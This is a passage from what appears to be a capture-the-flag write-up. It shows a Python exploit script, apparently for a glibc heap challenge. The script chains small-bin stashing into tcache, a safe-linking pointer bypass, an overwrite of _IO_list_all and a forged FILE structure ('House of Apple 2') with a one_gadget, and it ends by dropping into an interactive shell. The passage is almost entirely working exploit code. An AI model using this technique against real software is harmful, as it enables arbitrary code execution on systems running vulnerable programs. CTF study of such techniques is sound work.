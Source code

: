 ```python
           p64(0x20) + p64(0x10) + p64(0) + p64(0x11))                           # small bin stashing for chunks with this size
    free()
    malloc(False, b'\n') # trigger small bin stash to tcache
    free()          # before: tcache entry -> heap -> heap + 0x20 -> heap + 0x40

    # Step 5, overwrite the fd of first chunk and put it on tcache entries
    malloc(True, b'0'*0x50 + p64(0) + p64(0x21) + p64(PROTECT_PTR(heap, ioListAll)))
    malloc0x10()    # later : tcache entry -> _IO_list_all -> ???

    # force House of Apple 2
    file = flat({                           # heap - 0x50 to align with the beginning of the large chunk
        0x0: b'  sh;',                      # flag NOTE will be overwritten when free
        0x28: 1,                            # _IO_write_ptr
        0x68: libcBase + 0xebcf1,           # NOTE so we can only use one_gadget (2.39 not available)
        0xa0: heap - 0x50,                  # _wide_data
        0xd8: wjumps,                       # vtable
        0xe0: heap - 0x50                   # wide data vtable
        }, filler=b'\0')

    # Step 6, write fake file and then write _IO_list_all
    dbg()
    free()
    malloc(True, file) # write the whole structure
    free() # but flag is overwritten when free
    malloc(False, p64(heap - 0x50)) # write fake file on _IO_list_all
    eout() # exit to trigger House of Apple 2

    sh.clean()
    sh.interactive()
```

## 参考文献

[Black Hat 2023 0解Pwn题Houseofminho详细WP](https://bbs.kanxue.com/thread-279588.htm)
